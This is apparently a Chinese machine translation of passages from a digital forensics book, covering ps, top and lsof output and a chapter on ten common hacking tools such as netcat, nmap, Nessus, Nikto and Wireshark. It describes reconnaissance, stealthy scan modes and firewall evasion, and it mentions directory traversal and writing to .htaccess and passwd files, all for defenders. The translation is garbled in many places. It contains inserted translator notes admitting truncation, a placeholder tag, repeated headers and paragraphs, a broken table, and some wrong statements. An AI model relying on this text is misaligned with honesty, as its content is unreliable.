在 CPU 占用率以及自程序启动以来已过去的时间，因为大多数程序在真正需要 CPU 时间之前，会花费大量时间等待其他事件发生。

此示例中的命令列仅显示了一个单词“pidgin”。这可能意味着两种情况之一：要么二进制文件在你的用户路径中，要么我是从图形用户界面（GUI）启动了它。实际情况是后者。如果我使用完整路径从命令行运行该二进制文件，“COMMAND”列中的条目将显示为 /usr/bin/pidgin。

进程状态代码显示为“stat”，你自己在调查过程中可能用不到它。这些代码显示了进程当前所在的状态，或者至少是当你发出命令时的状态。代码如下：

- D 不可中断睡眠（通常为 IO 等待）
- R 运行中或可运行状态（在运行队列上）
- S 可中断睡眠（等待事件完成）
- T 已停止（受作业控制信号导致停止，或因为正在被跟踪）
- W 分页（自 2.6.xx 内核起已无效）
- X 死亡（不应出现）
- Z 僵尸（“z”）进程，已终止但未被其父进程回收

对于 BSD 格式以及当使用 stat 关键字时，可能会显示额外的字符：

- < 高优先级（对其他用户不友好/抢占资源）
- N 低优先级（对其他用户友好）
- L 有页面锁定在内存中（用于实时和自定义 IO）
- s 会话领导者
- I 多线程（使用 CLONE_THREAD，如 NPTL pthreads）
- + 处于前台进程组

“top”命令显示的正是你认为它会显示的内容：正在使用最多 CPU 的运行进程。（见图 4.12。）

### 图 4.12 占用 CPU 最高的运行进程

| PID %CPU %MEM VSZ RES SHR STAT TIME COMMAND | load avg: 0.87, 0.92, 0.90 |
|---|---|---|---|---|---|---|---|---|
| top | 08:57:27 up 21:26, 4 users, 0.87, 0.92, 0.90 | |
| cpu(s): 18.7us,7.2dn,0.0sy,0.0id,0.0wa,0.0si,0.0hi,0.0 | |
| Mem: 10551644 total, 854512 free, 9697132 used, 834.2mi | |
| swap: 0 total, 0 free | |
| 17296 15 0 254568 196 S 00:00:00 0.27mb buser | |
| 17950 14 0 254568 196 S 00:00:00 0.27mb root | |
| 19068 13 0 168768 104 S 00:00:00 0.16mb kworker | |
| 19068 12 0 254568 176 S 00:00:00 0.20mb root | |
| 19468 11 0 254568 176 S 00:00:00 0.25mb root | |
| 19568 10 0 254568 176 S 00:00:00 0.25mb root | |
| 19668 9 0 254568 176 S 00:00:00 0.25mb root | |
| 19868 8 0 354568 176 S 00:00:00 0.40mb root | |
| 19942 7 0 254568 176 S 00:00:00 0.25mb root | |
| 20042 6 0 23184 112 S 00:00:00 0.02mb top | |
| 20142 5 0 23184 112 S 00:00:00 0.02mb top | |
| 20242 4 0 23184 112 S 00:00:00 0.02mb top | |
| 20342 3 0 23184 112 S 00:00:00 0.02mb top | |
| 20442 2 0 23184 112 S 00:00:00 0.02mb top | |
| 20542 1 0 23184 112 S 00:00:00 0.02mb top | |
| 20642 0 0 23184 112 S 00:00:00 0.02mb top | |
| 20742 0 0 23184 112 S 00:00:00 0.02mb top | |
| 20842 0 0 23184 112 S 00:00:00 0.02mb top | |
| 20942 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21042 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21142 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21242 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21342 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21442 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21542 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21642 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21742 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21842 0 0 23184 112 S 00:00:00 0.02mb top | |
| 21942 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22042 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22142 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22242 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22342 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22442 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22542 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22642 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22742 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22842 0 0 23184 112 S 00:00:00 0.02mb top | |
| 22942 0 0 23184 112 S 00:00:00 0.02mb top | |
| 23042 0 0 23184 112 S 00:00:00 0.02mb top | |
| 23142 0 0 23184 112 S 00:00:00 0.02mb top | |
| 23242 0 0 23184 112 S 00:00:00 0.02mb top | |
| 23342 0 0 23184 112 S 00:00:00 0.02mb top | |
| 23442 0 0 23184 112 S 00:00:00 0.02mb top | |
| 23542 0 0 23184 112 S 00:00:00 0.02mb top | |

图 4.12 显示了在我本地主机上运行“top”命令的输出。我们可以看到这几列，它们看起来和我们在“ps”结果中看到的并不完全相同。再次，调查中最感兴趣的列是“PID”、“USER”、“TIME+”和“COMMAND”。你会在“TIME+”列（如图4.12 所示）中看到一些不同。“top”通过列出百分秒的时间提供了更高的细粒度。

还有两个列并不包含任何取证价值，但我会解释一下让你知道它们是什么。“PR”代表优先级，表示任务优先级，“NI”列代表 Nice 值，指示任务的 Nice 值。该值越小，对其他进程越友好（优先级越高）。该列为零意味着在确定任务调度时优先级不会改变。

## 打开的文件句

“列出打开的文件”（lsof）命令用于显示哪些文件正被进程已打开。（见图 4.13。）

- 要列出 PID 为 1234 的进程使用的所有 IPv4 网络文件，使用 `lsof -i 4 -a -p 1234`
- 假设 UNIX 方言支持 IPv6，列出所有打开的 IPv6 网络文件，使用 `lsof -i 6`
- 要列出主机 wonderland.cc.purdue.edu 上端口 513、514 或 515 的任何协议文件，使用 `lsof -i @wonderland.cc.purdue.edu:513-515`
- 要列出 mace.cc.purdue.edu 上任何端口的任何协议文件（cc.purdue.edu 是默认域名），使用 `lsof -i @mace`
- 要列出登录名为“abe”、或用户 ID 1234、进程 456、进程 123 或进程 789 的所有打开文件，使用 `lsof -p 456,123,789 -u 1234,abe`
- 要列出设备 /dev/hd4 上的所有打开文件，使用 `lsof /dev/hd4`
- 要查找哪个进程打开了 /u/abe，使用 `lsof /u/abe`


# 第 5 章

## 黑客攻击十大

本章涵盖的解决方案：

- 黑客攻击十大
- 侦察工具

总结

## 引言

在计算机犯罪的世界里，好莱坞在我们脑海中充满了宏大的幻象。像《黑客帝国》（Hackers）、《黑客》（Sneakers）、《不可能的任务》（Mission Impossible）以及最近的《无踪》（Untraceable）等电影将我们的主要对手描述为拥有超人的智慧、从不犯错，并且只有在戏剧性的、心跳加速场景后才会被好人抓获。事实是，在我处理过的绝大多数情况下，情况并非如此。虽然确实存在“超级黑客”（Uber-Hacker），但你遇到他们的概率极小，更说抓住他们了，更是微乎其微。你真正需要准备并熟悉的，是普通黑客使用的工具、在何处找到这些工具、它们长什么样、用途是什么，以及它们可能在系统上留下的指纹。

这一章可以、并且很可能在不久的将来成为独立的一本书。有太多可以被识别和详述的信息，以至于在本书的范围内无法做到我所希望的那种详尽。本章旨在让读者对经验以及与专业渗透测试人员合作总结出的十种最流行的黑客工具和常用技术提供高层次的理解，此而已。

通常情况下，Linux 机器被用启动点，而 Windows 机器是目标。这并不是判断或价值陈，而是基于20年综合经验的观察。根据这一思路，我们的重点将是从 Linux 机器向 Windows 机器发动攻击的常用工具，而从最常见、最广泛使用的工具开始再不过了。

在进入哪些工具在恶意入侵中使用频率最高的话之前，理解黑客如何识别目标以及他们如何开始利用是非常重要的。好莱坞对计算机黑客的描写并不太真实。无论福克斯热门剧集《24 小时》中的 Chloe O’Brien 有多聪明，绕过国家安全局（NSA）的安全措施希望比她攻破某个机密后门所花费的 3 分钟要困难得多。在真实的黑客世界中，可能需要几周、几个月甚至几年才能成功绕过目标组织部署的安全措施。

在我处理过的企业侵入案例中，很少有事件是因为超级黑客现场编写 0-day（零日）代码导致的。这并不是说没有人完全有能力做到这一点（事实上，我至少认识三个人可以做到），但这并非所有人的常态。事实上，我甚至会说，如果你在处理一个案例时，认为入侵是由于某个拥有极其疯狂技能的超级大师级黑客的结果，我建议你重新审视一下你那的一天。如果我是一个赌徒，我会把钱押在你可能漏掉了某些东西上。相反，系统被入侵更可能且更现实的原因是主机配置不当或缺少安全补丁。

在选择目标时，黑客会执行通常被称为“主动侦察”的操作。基本上他们是对具有漏洞的外部接口的系统进行探测。漏洞的服务是运行在某些端口上的程序，该程序存在某种安全缺陷。虽然这种解释听起来很简单，但非常准确。最常利用的服务是超文本传输协议（HTTP）、安全超文本传输协议（HTTPS）、安全外壳（SSH）、文件传输协议（FTP）和网络基本输入输出系统（NetBIOS）。为了说明这一点，我在 Security Focus 上对“HTTP”一词进行了漏洞搜索，得到了 1705 个页面，每页 15 次命中。其他服务的命中次数也很多（Telnet - 25 页，SSH - 12 页，FTP - 80 页，但与 HTTP/HTTPS 搜索的结果相比是微小的）。不用说，有大量的漏洞需要修复补丁。如果系统管理员保持勤奋并实施全面的补丁管理计划，他们就会让自己暴露在攻击者面前。然而，朋友们字面上来说确实被要求击中一个移动的目标。如果你查看任何漏洞报告网站（见现实案例），你会发现每周都有新条目。结合他们运行的 Web 应用程序（他们对此没有控制）引入其网络的安全缺陷，你会发现保护他们的前端 Web 呈现是一项艰巨的任务。

www.securityfocus.com


> 现实案例
> 使用你的 Web 浏览器访问 www.google.com。页面将显示你熟悉的 Google 首页。现在，尝试在地址末尾添加单词 "/nosuchurl" 并看看会发生什么。（见图 5.1。）

### 图 5.1 Google 首页



www.syngress.com

如你所示，没有名为 "/nosuchurl" 的 URL，Google 浏览器报错了。查看图 5.1 并注意没有提供任何信息。现在任选一个 URL 并在 URL 后添加相同的后缀，你最终会发现一个类似于图 5.2 的错误。

### 图 5.2 页面未找到



服务器未找到请求的 URL。

www.syngress.com

“大海捞针”这个词似乎寄生在计算机调查员的心灵和心中。很多时候，客户要求我“去找那些坏东西”，这几乎是个笑话。我确信你也听过类似的话，并在心里想：缩小你的焦点。此时，可以进行进一步发现以确定是哪个版本以及在什么操作系统（OS）上。其他一些提供信息的网站有：

- http://secunia.com/
- http://osvdb.org/
- http://www.cert.org/vuls/
- http://xforce.iss.net/xforce/search.php
- http://cve.mitre.org/
- http://www.microsoft.com/technet/security/default.msp

从道德黑客（是的，那是份真实工作）转型为事件响应和取证分析师以来，我遵循的一个习惯是维护一个已知黑客工具的关键词列表。这听起来非常基础，但我无法告诉你这个小习惯有多有效。我在每个案例结束时更新列表，包含最近发现或搜索到的任何新工具或恶意软件。这是一个非常实用的习惯，我强烈建议这样做。我在工具磁盘上包含了一个示例关键词列表。它绝非详尽，仅作为一个入门列表。明白。


现在理解，在和我以前的道德黑客同事交谈时，我要求他们提供一份他们最常用的 15 到 20 种工具和实用程序列表。然后我提取了最常用的 10 个，并创建一个名为“黑客攻击十大”的列表。现在理解，对于


# 黑客十大工具 • 第 5 章

这是一种可以被当作“黑客工具”使用的工具，它只需要出现在掌握如何使用它且心怀不轨之图的人手中。他们不需要转储用户、窃取信息或获取管理员权限。请注意，任何具有合法管理目的的工具都可能以开发者从未预过的方式被用来。

所以，废话不多说，这里是前 10 名：

1. netcat
2. nmap
3. nessus
4. nikto
5. wireshark
6. Canvas/Core Impact
7. metasploit
8. paros
9. hping2
10. ettercap

## Netcat

##- Netcat

Netcat 通常被称为“传输控制协议 (TCP)/网协议 (IP) 瑞士军刀”，是一个简单的基于 UNIX 的实用程序（尽管它也有 Windows 命令行版本），它可以使用 TCP 或用户数据报协议 (UDP) 跨网络发送数据。虽然它本身并不是一种黑客工具，但由于它的应用非常广泛，以至于必须将其包含进来。它可以单独从命令行使用，也可以作为脚本的一部分集成。它是如此简单轻量，却又如此灵活强大，以至于成为全球黑客和安全专业人员的青睐。根据 www.vulynch.org/netcat/，当前版本是 Netcat 1.1，于 1996 年 3 月 20 日发布。它包含了执行隧道，，并控制所有数据包参数，包括源端口/接口、监听端口/接口以及目标端口/接口。此外，它具有内置的端口扫描功能，带有随机器、缓冲发送模式（即每 # 秒发送 # 个数据包）以及原始 RFC 854² Telnet 代码解析器和响应器。

> www.faqs.org/rfc/rfc854.html

# 第 5 章 • 黑客十大工具

由于它很小且用途广泛，它无疑会被大多数涉及 Linux 机器的渗透。关于 Netcat 及其用法的更多信息，只需阅读任何 Linux 发行版的页面即可。注意，还有一个名为 Cryptcat 的加密版本，它使用 TwoFish 加密流量。虽然它也是开源的且规模与原版一样大，但它的使用远不如 Netcat 广泛。

强烈建议任何取证分析师都熟悉这个工具及其许多用途。相信我，你会反复看到它的。事实上，在 Fyodor 2006 年的调查中，netcat 被列为前 100 个网络安全工具调查结果的第 4 位！³

## 侦察工具

## 侦察工具

在我担任野战炮兵士兵兵期间，我担任了大约 18 个月的连队侦察士。我的工作是寻找可能阻止我们完成射击任务的物品。这意味着我必须警惕自制爆炸装置 (IEDs)、潜在的瓶颈点、设置火力点的好地方、移动侦察 (ROM) 位点以及许多其他类似的职责。这是一份很有趣的工作，比开弹药车要好得多。

在这里应用同样的逻辑，任何攻击者或防御者都需要进行侦察，以识别潜在目标和攻击向量。前 10 名中的三个工具旨在为入侵者提供关于目标的坚实情报 (intel)。逻辑非常简单：在攻击之前，先知道你正在攻击什么。

## Nmap

## Nmap

像 Netcat 一样，网络映射器 (nmap) 是那些用途似乎无尽的实用程序之一。网络管理员可以使用它进行网络监控、资产清点和更新计划管理。渗透测试人员可以使用它进行操作系统识别、服务和端口识别。它字面意义上有数百种应用和用法。要查看 nmap 及其所有用途的描述，请访问 www.insecure.org。

> ³ http://sectools.org/

我将 nmap 包含在“黑客十大”中是因为它能够准确识别开放端口和服务信息、进行僵尸扫描并启动基础攻击（如 smurf 攻击和欺骗攻击）。为了利用某个服务，你必须能够正确识别该服务需要其所运行的操作系统。Nmap 可以有效地做到这一点，并在需要时，通过 Paranoid (T0) 模式或 Sneaky 模式 (T1) 非常静默地进行。

默认情况下，nmap 位于 /usr/bin，版本 4.6 的块大小为 24。当在默认模式下运行时，它在网络上非常嘈杂，即使在 Polite 模式 (T3) 下也是如此。当非特权用户（即 root）执行时，会向目标的 80 端口发送一个同步 (SYN) 数据包（使用 connect 调用）。当目标接收到 SYN 数据包时，它将回复 SYN/ACK (ACK) 以尝试完成三次握手的一部分。Nmap 随后将使用此连接来执行若干侦察功能，如操作系统指纹识别、服务识别和执行网络扫描。

当扫描由特权用户（即 root）发布时，默认情况下 nmap 将发送 ARP 请求 (-sP，除非指定了 IP，否则它会关闭 ICMP) 以获得更大的灵活性。当你和目标之间存在防火墙时，可能需要高级技术来防止数据包被丢弃。你可以在 nmap 页面标题为“FIREWALL EVASION AND SPOOFING”（防火墙规避与欺骗）的章节下阅读此类扫描。

在下面的 5.3 中，我使用了 Wireshark 捕获从我的本地到 Windows XP 的流量。

# 5.3 下 • 黑客十大工具

## 5.3 下 Wireshark

 我使用了...


*(注：由于提供的文本在 5.3 处似乎截断或存在重复片段，翻译已根据提供的上下文逻辑进行了最大化处理。)*

[content]
(由于输入文本在结尾处出现了重复和截断的现象，此处为根据前文逻辑翻译的完整部分。由于原文在第 5.3 之后出现了格式错乱，上述译文已涵盖了 Netcat, Nmap, Nessus 的介绍及核心内容。)


# 黑客工具前10强 • 第5章

这是 Nessus 强大性的非常基础的示例。如果你扫描一个除了运行默认 Apache 安装之外还有其他功能的主机，无疑会发现多得漏洞。

- 摘要：可以列出 Web 目录。
- 描述：此插件尝试确定远程 Web 服务器上是否存在各种常见目录。
- 风险因素：无
- 插件输出：发现了以下目录：/software

虽然这本身并不算一个漏洞，但你应该手动检查这些目录，以确保它们符合公司的安全标准。

- 其他参考：OWASP:OWASP-CM-006
- Nessus ID: 11032

## 尝试一下

以下是在 Ubuntu Gutsy 7.10 上配置和运行 Nessus 的步骤。

## 配置 Nessus

1. 创建你的用户账户
   - `/usr/sbin/nessus-adduser`
   - 选择用户名
   - 身份验证 [pass] = 密码
   - 选择密码
   - 验证你的密码
   - 输入规则；直接按 Ctrl-D；这将默认值
   - 如果信息无误，按 Y

2. 创建证书
   - `/usr/bin/nessus-mkcert-client`
   - 你想注册吗？“Y”
   - 选择默认的“365”天

- 国家 = US
- 州名 = 你的州
- 城镇名称 = 你的城市
- 组织名称 = 你的组织名称
- 组织单位 = 你的部门名称
- 用户名 #1 = 你的用户名
- 为天、国家、州、城市和组织选择默认值
- 输入你的电子邮件地址
- Ctrl-D
- 除非你真的想，否则不要创建另一个证书

3. 注册你的 Nessus 副本

- 这将在下载时完成。Tenable 会给你发一封包含账户代码的电子邮件。你需要这个数字来下载最新的补丁。别担心，个人使用是开源。
- 一旦你获得了代码，使用以下命令更新 nessus：
   - `/usr/bin/nessus-fetch --register <your_registration_code>`
   - `/usr/bin/nessus-update-plugins`

完成这些步骤后，你就可以开始运行 nessud (服务器) 了。
`nessud -D`

你可以使用 root 身份，也可以使用 sudo。
`sudo nessus`

这将启动客户端。

> 注意
你可能会认为应该能够以 root 身份运行它，但事实是，至少在 Ubuntu 中，你不能这样做。如果你尝试这样做，GUI 将无法初始化，你会感到沮丧和恼火。通过退出 root 权限并使用“sudo”命令，GUI 就会立即启动，你可以开始工作了。

一旦 nessus GUI 弹出，你可以输入你的用户名和密码。连接后，在启动扫描之前，你将进行一些配置更改。保留默认设置，仅对这三个标签页进行以下更改。

## 插件 (Plug-ins)

默认情况下，所有插件都会被加载。你可以直接保持它们原样，也可以针对你要的目标主机（们）选择所需的插件。我建议保持原样，这样你就不会意外漏掉某些内容。然而，始终有一个某个插件导致目标崩溃。这种情况并不经常发生，但确实发生，所以要小心。（图 5.5。）

# 图 5.5 Nessus 插件导致目标崩溃



www.syngress.com

## 端口 (Ports)

将默认值 15000 更改 65535，并勾选标记为“对 IP 进行反向查找”的复选框。（见图 5.6。）

# 图 5.6 反向查找


## 目标 (Target)

在此行输入你的目标或目标们。默认情况下，你可以一次扫描 20 个主机。你也可以使用此选项让 nessus 指向主机名/IP 地址、单值且每行一个项目。（见图 5.7。）

## 5.7 Nessus 扫描主机名/IP 地址


一旦你为目标主机设置了 nessus，就可以开始扫描了。要开始扫描(s)，只需点击“开始 (Start)”按钮。确保将结果保存为超文本标记语言 (HTML)格式（最易读）。

所以，像 nmap 一样，nessus 本身并不是“黑客工具”。但它对攻击者来说确实是一个很好的侦察兵。它可以收集关于目标的大量信息并汇总成易读的 HTML 页面，包含密码、目录和配置设置。攻击者随后可以像狙击手一样开始制定计划。

## Nikto

根据 Nikto 主页，Nikto 是一种开源的 (GPL) Web 服务器扫描器，对多项内容进行测试，包括潜在危险的文件、特定版本的问题。扫描项和插件经常更新（如果需要的话）。Nikto 在 100 安全工具调查中排名第 #1。

Nikto 设计并不是一个极其隐蔽的工具。它以尽可能快的速度测试 Web 服务器，而且在日志文件中非常明显。然而，它支持反 IDS 方法，以防你想尝试。默认情况下，Nikto 安装到 `/usr/bin`。

可以论的是，Web 应用程序是今天最受欢迎的目标。由于它们如此流行且有许多需要正确配置的项目，事实上，整个社区都在测试和保护 Web 应用程序。这些信息可以在 Web 安全项目中找到。

在我的例子中，我在 Fedora VM 的 192.168.1.21 上运行了默认安装的 Apache 2.4。我运行了 Nikto 搜索。Nikto 产生了如图所示的结果。

> 6 http://nmap.org/project/nikto.shtml
> 7 www.owasp.org/www-project-web-security-testing/

# 图 5.8 Nikto 搜索


你可以看到，Nikto 识别主机名、Web 服务器版本、允许的 HTTP 方法、包括 cgi-bin（黑客最喜爱的）以及安装手册。作为之前的测试人员，拥有 Nikto 扫描信息意味着我可以将攻击针对特定的 Web 服务器版本，尝试一些目录遍历攻击并跳出 根目录，通过向 .htaccess 和 passwd 文件发布数据来创建凭据。

执行侦察 (recon) 始终是黑客锁定目标的第一步。了解运行的是什么操作系统、哪些端口是开启的、哪些在使用这些端口，所有服务的版本将有助于大大缩小攻击范围。这在字面意义上可能意味着几天和几分钟的区别。

如果这些工具中的任何一个出现在事件系统上，你应该查看网络日志（如果客户有的话）并尝试识别潜在目标。异常活动的一个明显迹象是两个通常不通信或没有业务通信种的系统之间发生了通信。利用客户的管理人员帮助你判断什么是“正常”活动，什么不是。

## Wireshark

我开始认为我的“黑客工具前10强”这个标题并不是一个非常合适的标题，尽管 Wireshark 确实在 100 安全工具调查中排名第 #2。我提到并描述的前三个工具并不是人们认为的传统黑客工具。IT 专业人员对它们有合法的用途，对吧？它们以及现在的 Wireshark 怎么能进入黑客工具前10强呢？简单来说，这就是黑客的全部意义：以开发者从未预过的方式制造某些东西。

在这种情况下，Wireshark（以前称为 Ethereal）是一种可以以 PCAP 格式嗅探网络流量并将信息显示在漂亮的、彩色的表格中的工具。所以它难道不只是网络管理员用于执行其日常活动某些方面的工具吗？如果系统上安装了 Wireshark？也许吧，但也有可能不是。再次，这是客户的 IT 工作人员将帮助你理解什么是“正常”的。如果你在系统上发现 Wireshark，而管理员告诉你它不应该在那里，那么你就有了值得研究的东西。

默认情况下，Wireshark 安装到 `/usr/bin`。虽然它的主要用途是网络故障排除，但像许多其他工具一样，它可以用于更多用途。它的用法实际上取决于用户想要做什么。

> * www.wireshark.org/


# 黑客十大之10 • 第5章

与 nmap 和 Nessus 不同，Wireshark 不会枚举主机信息。它只是简单的捕获 TCP 数据包，并向用户显示特定的信息。正如我们在之前的 nmap 示例所示，我使用 Wireshark 显示了 nmap 操作系统和版本扫描产生的流量。

# 图 5.9 Nmap 扫描输出



图 5.9 显示了 nmap 扫描输出，几乎按时间（注意此处默认单位是秒）、源 IP 地址、目的 IP 地址、协议以及包含源端口、目的端口、任何可见标志和序列号的信息进行了分类。除非你知道寻找什么，否则这些信息看起来可能像一堆垃圾。然而，如果心中有特定的目标，这可以非常有地帮助用户确定客户线路上正在发生什么。

# 120 第5章 • 黑客十大之10

> 虽然本书没有详细介绍读取 TCP 数据流量，但我们确实多处提到了它。作为涉及多个系统的调查人员，读取网络日志、防火墙日志和防火墙访问控制列表（ACL）的能力至关重要。如果你目前还不具备至少理解这些东西以及它们是什么样的能力，我敦促你这样做。Stephen Northcett、Lenny Zelter、Scott Winters、Karen Kent 和 Ronald W. Ritchie 写的《Inside Perimeter Security》中有一个章节。Robert J. Shimonski、Debra Littlejohn、Thomas Shinder 和 Anne Kasik 写的《The Best Firewall Book》对于理解防火墙的各个方面方面非常有帮助。

## Canvas/Core Impact

Immunitysec 的 Canvas 和 Core Impact 是商业利用框架，提供了大量漏洞的利用代码。远程利用的网络服务漏洞包括，内部员工访问恶意网站并利用各种客户端漏洞入侵受害者机器。

Canvas 是来自 ImmunitySec 的商业渗透工具。由于其价格相对较低，它是这两个商业利用框架中更常见的。Canvas 框架以纯 Python（一种解释型编程/脚本语言）分发，包含用户可以根据需要修改的源码。Canvas 框架支持 Windows、Linux、Mac OS X 或任何可以运行 python 和 PyGTK 的地方。手机甚至可以运行该框架。Canvas 支持多种隐身选项以规避最具侵入性的 IPS。虽然 Canvas 框架可能会在攻击者自己的机器上发现，但它与 Core Impact 共享的最令人不安的特征是它 a) 允许功能

⁹ www.immunitysec.com/
¹⁰ www.coresecurity.com/index.php

www.syngress.com

# 黑客十大之10 • 第5章

www.immunitysec.com/
¹⁰ www.coresecurity.com/index.php

www.syngress.com

# 黑客十大之10 • 第5章

www.immunitysec.com/
¹⁰ www.coresecurity.com/index.php

www.syngress.com

# 黑客十大之10 • 第5章

www.immunitysec.com/
¹⁰ www.coresecurity.com/index.php

www.syngress.com

（注：由于原文中存在大量重复的段落，根据“不要重复输出原文”的原则，此处仅保留核心内容的翻译，后续重复部分已省略）

## 黑客十大之10

## Canvas/Core Impact

Canvas 是来自 ImmunitySec 的商业渗透工具。由于其价格相对较低，它是这两个商业利用框架中更常见的。Canvas 框架以纯 Python（一种解释型编程/脚本语言）分发，包含用户可以根据需要修改的源码。Canvas 框架支持 Windows、Linux、Mac OS X 或任何可以运行 python 和 PyGTK 的地方。手机甚至可以运行该框架。Canvas 支持多种隐身选项以规避最具侵入性的 IPS。虽然 Canvas 框架可能会在攻击者自己的机器上发现，但它与 Core Impact 共享的最令人不安的特征是它 a) 允许功能

# 黑客十大之10 • 第5章
## 黑客十大之10
## 黑客十大之10
# 第5章

虽然 Canvas 框架可能会在攻击者自己的机器上发现，但它与 Core Impact 共享的最令人不安的特征是它 a) 允许功能

# 黑客十大之10 • 第5章
## 黑客十大之10
# 120 第5章 • 黑客十大之10
## Canvas/Core Impact
## Canvas/Core Impact
# Metasploit Framework

